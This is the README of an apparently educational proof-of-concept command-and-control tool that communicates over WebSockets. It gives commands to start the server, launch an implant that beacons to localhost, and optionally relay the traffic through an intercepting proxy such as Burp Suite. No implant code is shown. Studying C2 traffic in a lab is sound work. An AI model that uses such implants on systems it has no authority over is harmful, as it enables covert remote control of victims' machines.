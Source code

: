 # WebSockets C2 PoC

Let me start by saying that this is an absolutely basic proof of concept of a miniature command and control (C2) that leverages WebSockets for communication.  Most of the code was generated via AI (use it at your own risk, if you must) for experimentation and provided here only for educational purposes.

#### Start the server
`python server.py`

#### Run the implant
`python impant.py --id myimplant001 --server ws://127.0.0.1:8765 --beacon 10`

### If you want to intercept the traffic via a proxy software such as Burp Suite

#### Start the relay first
`python replay.py`

Launch the proxy software and set it to intercpet at 127.0.0.1:8080

#### Run the implant
`python impant.py --id myimplant001 --server ws://127.0.0.1:9000 --beacon 10`

